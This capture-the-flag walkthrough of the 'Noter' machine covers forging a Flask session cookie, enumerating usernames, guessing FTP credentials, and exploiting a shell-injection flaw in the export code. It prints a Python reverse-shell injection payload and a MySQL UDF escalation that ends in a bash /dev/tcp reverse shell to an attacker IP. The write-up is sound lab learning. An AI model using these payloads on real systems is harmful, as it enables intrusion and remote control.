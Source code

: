 # Noter

Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (58) (2) (1).png" alt=""><figcaption></figcaption></figure>

Port 5000 was a HTTP port that was running some notetaking application.&#x20;

### JWT Token Brute Force

The web application allowed us to register or login:

<figure><img src="../../../.gitbook/assets/image (33) (2) (1).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in. When I proxied the traffic through Burp, we can see that there is a JWT Session Cookie present:

<figure><img src="../../../.gitbook/assets/image (65) (2).png" alt=""><figcaption></figcaption></figure>

When decrypted, we can see that it contains some data:

<figure><img src="../../../.gitbook/assets/image (69) (2).png" alt=""><figcaption></figcaption></figure>

Generally, from other machine experiences, Flask uses JWT cookies to differentiate sessions. So I tried to brute force the secret of this cookie with `flask-unsign` and `rockyou.txt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (16) (4) (1).png" alt=""><figcaption></figcaption></figure>

With the secret found, we can create our own cookies and make whatever username we want. However, we still need to find a username that works.

### Username Enumeration

I noticed that the website has different responses when we key in an invalid username and a valid one,

I created the `test` user and tried a wrong password, and got the `Invalid Login` warning:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

If we did this a user that does not exist, it would tell us `Invalid Credentials`.&#x20;

<figure><img src="../../../.gitbook/assets/image (57) (1) (2).png" alt=""><figcaption></figcaption></figure>

With this boolean condition, we can brute force all possible users within the machine. I used Burp Intruder to do so:

<figure><img src="../../../.gitbook/assets/image (49) (2) (1).png" alt=""><figcaption></figcaption></figure>

Then I filtered the results using the `Invalid Login` string.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

So `blue` is the user on this machine. We can use the secret we found earlier to create a new cokie and sign in by replacing the cookie:

<figure><img src="../../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

### FTP Credentials

With access to this new user, we can view more hidden notes:

<figure><img src="../../../.gitbook/assets/image (43) (3) (1).png" alt=""><figcaption></figcaption></figure>

The first one was the most interesting as it revealed some FTP Credentials:

<figure><img src="../../../.gitbook/assets/image (29) (1) (3).png" alt=""><figcaption></figcaption></figure>

Logging into FTP, we can gain access to a password policy PDF.

<figure><img src="../../../.gitbook/assets/image (3) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

Reading the Password Policy, we can see that the passwords are all templated:

<figure><img src="../../../.gitbook/assets/image (11) (2) (3).png" alt=""><figcaption></figcaption></figure>

With this hint, we can login as `ftp_admin` using `ftp_admin@Noter!`.&#x20;

### Source Code Review

WIth access to the new FTP account, we can find two website source code backups made at different times:

<figure><img src="../../../.gitbook/assets/image (40) (2) (1).png" alt=""><figcaption></figcaption></figure>

Additionally, because we are the `blue` user, we can view the VIP dashboard which allows us to **import and export notes**.&#x20;

<figure><img src="../../../.gitbook/assets/image (25) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20) (5) (1).png" alt=""><figcaption></figcaption></figure>

When checking the Export Notes portion of code, we see that it **runs a command using a shell.**

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occured while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occured!")


            else:
                return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
            
        except Exception as e:
            return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")

    else:
        abort(403)
```

In specific, it runs `md-to-pdf.js`, which might be an RCE vector here. So, we can create a malicious .md file that has commands within it to allow for code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (68) (2).png" alt=""><figcaption></figcaption></figure>

For this case, we would need to have something to escape the first quote and command, hence we start the payload with `';`. Afterwards, we need to inject some Python code since this is a Python based website. I used a basic Python3 reverse shell.

Then, we need to end it with `#'` to close the quote and end the command:

```
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",21));
os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
```

We can then upload this file and gain a reverse shell as the `svc` user on a listening port.

### SQL Creds

Additionally, when checking the two backups, I used `diff` to view the differences between each file. I found that some MySQL Credentials were removed from the more recent backup:

<figure><img src="../../../.gitbook/assets/image (32) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

With the MySQL Creds, we can login as root:

<figure><img src="../../../.gitbook/assets/image (60) (2).png" alt=""><figcaption></figcaption></figure>

Because MySQL was running as root on the machine, we could do the `raptor_udf.so` exploit. This exploit basically uses a shared library that runs commands from the SQL plugins library. We can add a custom command that would allow us to gain RCE as the root user.

There are more detailed instructions here:

{% embed url="https://www.exploit-db.com/raw/1518" %}

<figure><img src="../../../.gitbook/assets/image (47) (2) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just use the `do_system('bash -c "bash -i >& /dev/tcp/10.10.16.12/21 0>&1"');` function we defined to gain a reverse shell on the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (67) (2).png" alt=""><figcaption></figcaption></figure>
